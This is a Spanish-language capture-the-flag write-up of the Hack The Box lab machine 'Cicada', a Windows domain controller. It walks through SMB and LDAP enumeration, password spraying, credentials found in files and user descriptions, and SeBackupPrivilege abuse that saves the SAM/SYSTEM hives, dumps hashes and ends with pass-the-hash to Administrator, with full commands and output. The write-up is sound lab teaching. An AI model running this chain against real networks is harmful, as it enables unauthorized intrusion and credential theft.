


## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```console
nmap -p- -sVC --min-rate 5000 10.10.11.35 -Pn -n -oN nmap 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-09 20:01 CET 
Nmap scan report for 10.10.11.35 
Host is up (0.046s latency). 
Not shown: 65523 filtered tcp ports (no-response) 
PORT      STATE SERVICE       VERSION 
53/tcp    open  domain        Simple DNS Plus 
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-10 02:01:35Z) 
135/tcp   open  msrpc         Microsoft Windows RPC 
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn 
445/tcp   open  microsoft-ds? 
464/tcp   open  kpasswd5? 
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0 
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name) 
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb 
| Not valid before: 2024-08-22T20:24:16 
|_Not valid after:  2025-08-22T20:24:16 
|_ssl-date: TLS randomness does not represent time 
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name) 
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb 
| Not valid before: 2024-08-22T20:24:16 
|_Not valid after:  2025-08-22T20:24:16 
|_ssl-date: TLS randomness does not represent time 
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name) 
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb 
| Not valid before: 2024-08-22T20:24:16 
|_Not valid after:  2025-08-22T20:24:16 
|_ssl-date: TLS randomness does not represent time 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found 
58309/tcp open  msrpc         Microsoft Windows RPC 
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows 

Host script results: 
| smb2-time:  
|   date: 2024-11-10T02:02:26 
|_  start_date: N/A 
|_clock-skew: 7h00m00s 
| smb2-security-mode:  
|   3:1:1:  
|_    Message signing enabled and required 

```

No hay aplicación web, así que revisamos los recursos **Samba**, encontramos permisos de lectura en el recurso "*HR*":
```console
nxc smb 10.10.11.35 -u guest -p '' --shares 

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:  
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares 
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark 
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------ 
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin 
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share 
SMB         10.10.11.35     445    CICADA-DC        DEV                              
SMB         10.10.11.35     445    CICADA-DC        HR              READ             
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC 
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share  
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share  
```

Accedemos al recurso y leemos la nota, nos proporciona una contraseña por defecto, esto viene genial porque podemos intentar enumerar usuarios y reutilizar la contraseña sobre ellos, un clásico en entornos reales:
```console
# use HR 
# ls 
drw-rw-rw-          0  Fri Mar 15 07:26:17 2024 . 
drw-rw-rw-          0  Thu Mar 14 13:21:29 2024 .. 
-rw-rw-rw-       1266  Wed Aug 28 19:31:48 2024 Notice from HR.txt 
# cat Notice from HR.txt 

Dear new hire! 

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure. 

Your default password is: Cicada$M6Corpb*@Lp#nZp!8 

To change your password: 

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above. 
2. Once logged in, navigate to your account settings or profile settings section. 
3. Look for the option to change your password. This will be labeled as "Change Password". 
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters. 
5. After changing your password, make sure to save your changes. 

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password. 

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb. 

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team! 

Best regards, 
Cicada Corp 
```

## Explotación
A continuación, hacemos una enumeración de usuarios con la opción *rid-brute* de **nxc**, logramos enumerar varios usuarios:
```console
> nxc smb 10.10.11.35 -u guest -p '' --rid-brute | anew nxc-smb_rid-brute.txt 
SMB                      10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB                      10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:  
SMB                      10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias) 
SMB                      10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias) 
SMB                      10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias) 
SMB                      10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias) 
SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias) 
SMB                      10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser) 
SMB                      10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup) 
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser) 
```

Realizamos el password spraying y conseguimos autenticarnos con el usuario *Michael*:
```console
> nxc smb 10.10.11.35 -u files/ad_users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --no-bruteforce --continue-on-success 
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE  
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE  
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE  
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE  
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE  
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE  
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8  
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE  
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```

Con este usuario tenemos permisos para leer *sysvol* y otros directorios:
```console
> nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --pass-pol 
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8  
SMB         10.10.11.35     445    CICADA-DC        [+] Dumping password info for domain: CICADA 
SMB         10.10.11.35     445    CICADA-DC        Minimum password length: 7 
SMB         10.10.11.35     445    CICADA-DC        Password history length: 24 
SMB         10.10.11.35     445    CICADA-DC        Maximum password age: 41 days 23 hours 53 minutes  
SMB         10.10.11.35     445    CICADA-DC         
SMB         10.10.11.35     445    CICADA-DC        Password Complexity Flags: 000001 
SMB         10.10.11.35     445    CICADA-DC            Domain Refuse Password Change: 0 
SMB         10.10.11.35     445    CICADA-DC            Domain Password Store Cleartext: 0 
SMB         10.10.11.35     445    CICADA-DC            Domain Password Lockout Admins: 0 
SMB         10.10.11.35     445    CICADA-DC            Domain Password No Clear Change: 0 
SMB         10.10.11.35     445    CICADA-DC            Domain Password No Anon Change: 0 
SMB         10.10.11.35     445    CICADA-DC            Domain Password Complex: 1 
SMB         10.10.11.35     445    CICADA-DC         
SMB         10.10.11.35     445    CICADA-DC        Minimum password age: 1 day 4 minutes  
SMB         10.10.11.35     445    CICADA-DC        Reset Account Lockout Counter: 30 minutes  
SMB         10.10.11.35     445    CICADA-DC        Locked Account Duration: 30 minutes  
SMB         10.10.11.35     445    CICADA-DC        Account Lockout Threshold: None 
SMB         10.10.11.35     445    CICADA-DC        Forced Log off Time: Not Set 
```

Dumpeamos la información de *LDAP* con la herramienta **ldapdomaindump**:
```console
> ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -o files/ldap-results 
[*] Connecting to host... 
[*] Binding to host 
[+] Bind OK 
[*] Starting domain dump 
[+] Domain dump finished 
```

Vemos la lista de usuarios, enumeramos la contraseña del usuario de dominio *David Orelious* en la descripción (parece broma, pero os juro que me lo he encontrado en muchas ocasiones :D):


Nos autenticamos con *David*, pero tampoco es administrador, pero si que tiene acceso al recurso "*DEV*":
```console
> nxc smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares 
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3  
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares 
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark 
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------ 
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin 
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share 
SMB         10.10.11.35     445    CICADA-DC        DEV             READ             
SMB         10.10.11.35     445    CICADA-DC        HR              READ             
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC 
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share  
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```

Accedemos al recurso *DEV*, encontramos un script en powershell con las credenciales hardcodeadas de *Emily Oscars* (otro clásico de entornos reales):
```console
# use DEV 
# ls 
drw-rw-rw-          0  Wed Aug 28 19:27:31 2024 . 
drw-rw-rw-          0  Thu Mar 14 13:21:29 2024 .. 
-rw-rw-rw-        601  Wed Aug 28 19:28:22 2024 Backup_script.ps1 
# cat Backup_script.ps1 
$sourceDirectory = "C:\smb" 
$destinationDirectory = "D:\Backup" 

$username = "emily.oscars" 
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force 
$credentials = New-Object System.Management.Automation.PSCredential($username, $password) 
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss" 
$backupFileName = "smb_backup_$dateStamp.zip" 
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName 
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath 
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath" 
#  
```

Utilizamos las nuevas credenciales, vemos que tiene permisos para leer la carpeta *Admin* y de lectura y escritura en *C*, vamos mejorando!:
```console
> nxc smb 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --shares 
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt  
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares 
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark 
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------ 
SMB         10.10.11.35     445    CICADA-DC        ADMIN$          READ            Remote Admin 
SMB         10.10.11.35     445    CICADA-DC        C$              READ,WRITE      Default share 
SMB         10.10.11.35     445    CICADA-DC        DEV                              
SMB         10.10.11.35     445    CICADA-DC        HR              READ             
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC 
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share  
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```

*Emily* puede tener acceso por *winrm*, hacemos la prueba y vemos que si: 
```console
> nxc winrm 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' 
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb) 
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!) 
```
Nos conectamos con la herramienta **evil-winrm** y vemos nuestros permisos:
```console
> evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' 

Evil-WinRM shell v3.5 

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine 

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion 

Info: Establishing connection to remote endpoint 
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /all 

USER INFORMATION 
---------------- 

User Name           SID 
=================== ============================================= 
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601 

GROUP INFORMATION 
----------------- 

Group Name                                 Type             SID          Attributes 
========================================== ================ ============ ================================================== 
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group 
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group 
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group 
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group 
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group 
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group 
Mandatory Label\High Mandatory Level       Label            S-1-16-12288 

PRIVILEGES INFORMATION 
---------------------- 

Privilege Name                Description                    State 
============================= ============================== ======= 
SeBackupPrivilege             Back up files and directories  Enabled 
SeRestorePrivilege            Restore files and directories  Enabled 
SeShutdownPrivilege           Shut down the system           Enabled 
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled 

USER CLAIMS INFORMATION 
----------------------- 

User claims unknown. 

Kerberos support for Dynamic Access Control on this device has been disabled. 
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>  
```

También leemos la flag de usuario:
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> dir -force 

Directory: C:\Users\emily.oscars.CICADA\Desktop 

Mode                 LastWriteTime         Length Name 
----                 -------------         ------ ---- 
-ar---         11/9/2024   3:52 PM             34 user.txt 

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt 
************************** 
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop>  
```

## Escalada de privilegios
Tenemos permisos *SeBackupPrivilege*, esto nos permite hacer backups de los ficheros sam y system, para después extraer las credenciales de los usuarios o utilizar *secretsdump* de impacket:
```console
reg save hklm\system c:\tmp\system 
reg save hklm\sam c:\tmp\sam  
```

Aquí podemos tirar de varias herramientas **impacket-secretsdump** y obtener el hash para hacer *passthehash*:
```console
> impacket-secretsdump -sam sam -system system local 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies  

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash) 
Administrator:500:aad3b435b51404eeaad3b435b51404ee::**********************::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee::**********************::: 
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:**********************::: 
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information. 
[*] Cleaning up...  
```

Nos conectamos con *evil-winrm* y haciendo *passthehash*, y leemos la flag de administrador:
```console
> evil-winrm -i 10.10.11.35 -u administrator -H ************************** 
Evil-WinRM shell v3.5 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine 

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion 

Info: Establishing connection to remote endpoint 
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt 
****************** 
*Evil-WinRM* PS C:\Users\Administrator\Documents>  
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!